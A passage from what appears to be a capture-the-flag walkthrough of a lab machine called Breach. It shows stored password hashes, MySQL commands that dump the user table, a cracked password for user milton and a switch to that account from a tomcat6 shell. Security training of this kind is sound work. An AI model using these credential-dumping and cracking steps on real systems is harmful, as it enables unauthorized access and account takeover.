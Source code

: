 	Peter Gibbons:$23$5000$eemraVuhMjb0muJ8eKaIfAjJuOQorYcJ3HT0TQWVZ3XIR34Suws6rYN6uSQsQOU-5d3e3c6d93b361ca051900d8cfaecbf13c0b96fa76f525683f3a54386e04c4a68594359d15e2599f718af54fcad9a1e85d438e84da1c5af51f1fc3e185ba68a0       

	Michael Bolton:$23$5000$zk0tDm60SfN2vX9CJ3WuCxT3JoiwOmj99VwU3ZfuYwmKSuzhOuSDCLeedS7yhvC2-cac27699650c034aa4114fe1df04cc14e70a7dd6812a5af482e3c73f00b31595aa332242a0b67b0f58df485186d6c8176cafe1365f55097adcf15b307060d3f0   
	```
	- The hash cannot be identifed
3. Obtain credentials from mysql database
	```
	use mysql;
	SHOW tables;
	SELECT * from user;
	SELECT User, Password FROM user;
	```
	```
	mysql> SELECT User, Password FROM user;
	+------------------+-------------------------------------------+
	| User             | Password                                  |
	+------------------+-------------------------------------------+
	| root             |                                           |
	| milton           | 6450d89bd3aff1d893b85d3ad65d2ec2          |
	| root             |                                           |
	| root             |                                           |
	| debian-sys-maint | *A9523939F1B2F3E72A4306C34F225ACF09590878 |
	+------------------+-------------------------------------------+
	```
4. Crack hash 
	![](images/Pasted%20image%2020220120050341.png)
	milton:thelaststraw
5. Switch user to milton
	```
	tomcat6@Breach:/var/www/5446$ su milton
	Password: thelaststraw
	milton@Breach:/var/www/5446$ 
	```
